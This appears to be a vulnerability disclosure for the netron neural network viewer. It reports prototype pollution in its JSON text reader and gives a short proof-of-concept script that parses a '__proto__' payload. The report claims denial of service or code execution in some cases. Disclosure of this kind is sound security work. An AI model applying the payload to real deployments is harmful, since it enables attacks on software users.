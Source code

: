 # Description

The `netron` library is a `viewer` for neural networks and deep learning algorithms, which can be used by every platform.
One of the `js` file to parse the `JSON` provided as datasets is however vulnerable to a `prototype pollution` issue, which could lead to `DOS` or also `RCE` in special cases.

# PoC

1. Download the https://github.com/lutzroeder/netron repo
2. `cd <installation_dir>/source`
3. Create the POC file:

```js
// poc.js
var j_net = require('./json');
var res = new j_net.TextReader('{"__proto__":{"test":true}}').read();
console.log(res.__proto__.test); // true
```

